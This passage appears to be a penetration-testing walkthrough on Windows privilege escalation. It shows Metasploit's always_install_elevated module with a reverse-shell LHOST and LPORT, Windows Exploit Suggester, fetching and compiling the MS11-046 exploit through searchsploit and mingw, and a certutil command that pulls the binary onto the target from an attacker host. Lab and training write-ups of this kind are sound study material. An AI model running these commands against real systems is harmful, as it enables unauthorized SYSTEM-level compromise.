










### **EXPLOITING WITH METASPLOIT**

1.  We discovered that the target  potentially vulnerable to the following kernel vulnerabilities:  
    
    

    **NOTE:** `exploit/windows/local/always_install_elevated` Enables privilege escalation by exploiting the AlwaysInstallElevated policy setting on Windows systems.
    
2.  For this exploit, we need to set the LHOST, LPORT, and SESSION fields. LPORT should be different from the port used in the initial exploit to get the Meterpreter session (which was 1338 in this case).
    
    ```
    use exploit/windows/local/always_install_elevated
    set SESSION 1
    set LHOST [IP-ADRESS]
    set LPORT [PORT]
    run
    ```
    
    
    
3.  Now, run the exploit, which should provide us with a SYSTEM shell.  
    
    
    

### **EXPLOITING WITH WINDOWS EXPLOIT SUGGESTER**

1.  Using Windows Exploit Suggester, we discovered that the target is potentially vulnerable to several kernel vulnerabilities.  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    
    
2.  We can download the exploit using searchsploit and compile it.
    
    ```
    searchsploit 40564
    searchsploit -m windows_x86/local/40564.c
    x86_64-w64-mingw32-gcc 40564.c -o ms11-046.exe -lws2_32
    ```
    
    
    
3.  Alternatively, we can search for a pre-compiled version of the exploit.  
    
    

    **NOTE:** Be cautious of executable files as they may contain malicious code or backdoors. Always download from trusted sources.
    
4.  MS11-046 pre-compiled exploit  
    
    
    
5.  To download Exploit Click on the raw download link to obtain the executable:  
    
    
    
6.  Transfer exploit to the target machine (see File Transfer section for details).  
    `python3 -m http.server 8000`  
    
    
    
7.  After executing the exploit, ensure the system remains stable and the privilege escalation is successful without causing crashes or other issues.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/ms11-046.exe ms11-046.exe`  
    
    